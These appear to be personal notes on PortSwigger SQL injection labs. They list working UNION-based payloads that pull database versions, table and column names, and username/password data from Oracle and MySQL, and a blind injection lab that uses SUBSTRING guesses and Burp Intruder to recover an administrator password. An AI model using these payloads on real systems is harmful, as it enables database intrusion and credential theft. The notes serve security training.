 On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name. There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual

https://portswigger.net/web-security/sql-injection/cheat-sheet

'UNION SELECT banner, banner FROM v$version -- 

'UNION SELECT 'abc', 'abc' FROM dual --

### SQL Injection 7 Union SQLi Information Leak for MySQL/Microsoft

`#` must be urlencoded to %23

' UNION SELECT @@version,@@version%23

https://security.stackexchange.com/questions/200383/html-payloads-work-on-burp-but-not-on-browser

### SQL Injection 8 Union SQLi Information Leak

' union select TABLE_NAME,TABLE_NAME from information_schema.tables--

' union select column_name, column_name from information_schema.columns WHERE table_name = 'users_hnvsnr'--

%27+union+select+username_vsghsh,password_dwpobn+from+users_hnvsnr--

### SQL Injection 9 Union SQLi Information Leak

'+union+select+table_name,table_name+from+all_tables-- 

'+union+select+column_name,+column_name+from+all_tab_columns+WHERE+table_name+%3d+'USERS_OJVWEU'--

'+union+select+PASSWORD_INUOPA,+USERNAME_KZOQCW+from+USERS_OJVWEU--

### Lab: Blind SQL injection with conditional responses

'Welcome Back' should be displayed in between 'Home' and 'My account' in an event of a valid trackingId

Query looks like: SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

asd' AND '1' = '1

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'asd' AND '1' = '1'

asd' OR '1' = '2 does not have message

asd' OR '1' = '1 have message

asd' OR SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = '§a§

use intruder, clusterbomb, use 2 payloads, 1 for the index of the password, the other for guessing the password itself

PASSWORD GUESSED 7nw8koalr5crmgexwjng

https://www.w3schools.com/sql/func_mysql_substring.asp
